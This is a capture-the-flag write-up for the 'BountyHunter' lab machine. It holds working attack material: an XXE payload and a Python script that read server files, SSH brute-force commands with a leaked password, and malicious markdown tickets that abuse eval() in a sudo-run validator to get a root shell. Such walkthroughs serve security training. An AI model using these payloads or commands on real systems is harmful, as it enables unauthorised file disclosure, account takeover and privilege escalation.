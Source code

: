 # @author : M3tr1c_r00t
## BountyHunter!
![BountyHunter](https://user-images.githubusercontent.com/99975622/204362290-57dd3f77-0c4a-4761-bcd4-76c1fa21dbdd.png)

### Enumeration...
So as always we start with an nmap scan.....
![Screenshot_2022-11-22_00_19_21](https://user-images.githubusercontent.com/99975622/204362544-3d1f83c2-e0c7-44fb-84d3-8e55aa21a597.png)
We can that there are 2 ports open.... ssh and port 80.

Gobusterscan
After running a gobuster scan,we find a couple of directories which we could check out...
![Screenshot_2022-11-22_00_19_11](https://user-images.githubusercontent.com/99975622/204362796-ae3b0889-5ed1-4685-a4be-0da476983f91.png)

### XXE Vulnerability
![image](https://user-images.githubusercontent.com/99975622/204363407-cb28d4a3-abf8-4cb9-be8f-9c392b877e56.png)
<br>After checking out the site, we find there's a submit page which sent data in form of a base64 encoded xml format.
After finding out about thid while using burpsuite, we can try using the basic xxe and we achieved Arbibrary file read....
On this same account, i made a python script which allows for file read and only outputs the file read contents....



```
You can take advantage of this XXE using the following in the request of the site in burpsuite; 

<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///{test}'>]>
                <bugreport>
                <title>tester</title>
                <cwe>&test;</cwe>
                <cvss>10</cvss>
                <reward>5555</reward>
                </bugreport>

```
Checkout my Python script......
```
#!/usr/bin/python3
#@author: M3tr1c_r00t
import requests
import base64
import sys
import cmd

def getFile(fname):
	#fname = sys.argv[1]
	#fname = '/etc/passwd'
	payload=f"""<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource={fname}"> ]>
		        <bugreport>
		        <title>tester</title>
		        <cwe>&xxe;</cwe>
		        <cvss>10</cvss>
		        <reward>5555</reward>
		        </bugreport>""".encode()


	payload_b64 = base64.b64encode(payload).decode()
	data = {"data": payload_b64}
	r = requests.post("http://10.129.114.104//tracker_diRbPr00f314.php", data=data)
  #change your ip in r!
	#output = r.text
	output = (r.text).split('>')[11:][:-4]
	#print(base64.b64decode(output).decode())
	conf = output[0].split("<")
	#print(bytes.decode(base64.b64decode(conf[0])))
	return bytes.decode(base64.b64decode(conf[0]))
	
	
	
class XxeLeak(cmd.Cmd):
	prompt = "M3tr1c_r00t> "
	def default(self,args):
		print(getFile(args))
XxeLeak().cmdloop()

```

In my script ive changed the XXE to php filter base64 encode because when you try to visit the /var/www/hmtl/index.php the output is nothing... ; and to fix that we use the php filter one.

After making the script, i ran gobuster once again but using the "-x php" to specify that we want to find php files...; and we get db.php

On viewing this file, we find some creds...
![Screenshot_2022-11-21_23_48_11](https://user-images.githubusercontent.com/99975622/204366691-dfddd8fb-5edd-4c36-9c6e-3eb6bc79f4de.png)

Next up, we use crackmapexec to bruteforce the creds to the specific users or you can also use hydra...

We get the users from the /etc/passwd file .....

```
Crackmapexec:
crackmapexec ssh 10.129.114.104 -u users.txt -p "m19RoAU0hP41A1sTsq6K"
Hydra:
hydra -L users.txt -P passwd.txt 10.10.14.62 -t 4 ssh
```
And we get creds!

We can now SSH into the machine!
![Screenshot_2022-11-21_23_50_20](https://user-images.githubusercontent.com/99975622/204367424-6f164a04-0e59-4410-8fe4-c40d7c5bce96.png)

On logging in, we find there's a file which we can execute by using python as sudo....
![Screenshot_2022-11-21_23_53_08](https://user-images.githubusercontent.com/99975622/204368205-c4f4b178-4c95-4e6d-84b9-72cb2edc3cd1.png)
But the bad news is that that script is read only.

Its a Ticket validator script ...

```
development@bountyhunter:~$ cat /opt/skytrain_inc/ticketValidator.py
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()

```
We can take advantage of this as the script reads the markdown files line by line and is vulnerable to code execution.

We can modify the markdown files and add some a bin bash to help as get bash as root.

```
# Skytrain Inc
## Ticket to Bridgeport
__Ticket Code:__
**32+110+43+ __import__('os').system('bash')**
##Issued: 2021/04/06
#End Ticket
```
This also works....
```
development@bountyhunter:~/tmp$ cat exp.md 
# Skytrain Inc   
## Ticket to root  
__Ticket Code:__  
**11+100==111 and exec("import pty; pty.spawn(\"/bin/sh\")")

```
And we are root!
Done!
### Socials
@Instagram:https://instagram.com/M3tr1c_r00t
<br>@Twitter:https://twitter.com/M3tr1c_root
